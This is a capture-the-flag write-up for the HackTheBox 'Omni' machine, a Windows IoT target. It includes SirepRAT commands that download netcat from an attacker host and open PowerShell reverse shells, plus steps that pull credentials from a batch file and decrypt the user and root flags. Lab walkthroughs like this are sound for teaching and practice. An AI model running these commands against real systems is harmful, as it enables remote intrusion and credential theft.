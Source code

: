 ## Omni [HackTheBox]

> Mayank Srivastava | 5 jan 2021 1:48 PM

| Machine Introduction                     |

|----------|--------------------------------|

| Name    | Omni   |

| Os Type  | Other     |

| Diffculty  | Easy        |

| Points    |30        |

| Ip address   | 10.10.10.204      |









As usual Basic enumeration

## Nmap Scanning

```
# Nmap 7.91 scan initiated Tue Jan  5 13:36:10 2021 as: nmap -Pn -sC -sV -oN nmap/initial 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.39s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  5 13:37:04 2021 -- 1 IP address (1 host up) scanned in 53.77 seconds

```
After gathering more information about the box i got at the conclusion that the box is a IOT based and to exploit it we can use SafeBreach-Lab's ```SirepRAT```.
SirepRAT has a functionality which lets us run Arbitrary Program. That means we could run cmd.exe and call in ``` powershell ``` and download a file via the ```Invoke-WebRequest``` cmdlet.

Use the Following command
```

python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.50:8000/nc64.exe" --v


```

Now Execute Netcat on the attacker machine to get reverse connection

On attacker machine : ``` nc -nlvp 9999 ```

Run the Following command to get reverse connection from the victm Machine

```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.50 9999 -e powershell.exe" --v
```

Now we have a poweshell reverse connection on our machine now lets execute the following command which will give us interesting credentials.

## Exploitation

```

$ cd “c:\ProgramFiles\WindowsPowershell\Modules\PackageManagement”

$ ls -force

```

As You can see there are two credentials in r.bat file so using this credentials we can login to the web application of the machine.

goto Processes > Run Command

Here We Could run commands. Lets try to get a reverse shell.

Start a another netcat listener on your machine again on different port, and then run this command.

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip address> 9999 -e powershell.exe
```

Now we will get reverse connection now lets check the username using following commands

```
$env:Username
```

We are logged in as ```app``` user it means we can read the user.txt file but content looks encrypted we need to decrypt it.

For decrypt the flag we need to execute some commands.

```
$credential = Import-CliXml -Path U:\Users\app\user.txt
$ $credential.GetNetworkCredential().Password
```
After Running this command user flag will apper on the konsole


## Post Exploitation

Remember we found two username in r.bat file?
Let's use the second one, The administrator.

Start another netcat listener

GoTo Processes > Run Command

Then again Run this command

```
C:\Windows\System32\spool\drivers\color\nc64.exe <Your_Ip_address> 5555 -e powershell.exe"
```

Now we have a reverse poweshell

same process as ```user.txt``` we can also decrypt ```root.txt```.

```
$ $credential = Import-CliXml -Path U:\Users\administrator\root.txt
$ $credential.GetNetworkCredential().Password
```

Yeahhhhhhhhhhhhh!!!!!!! We have root flag.
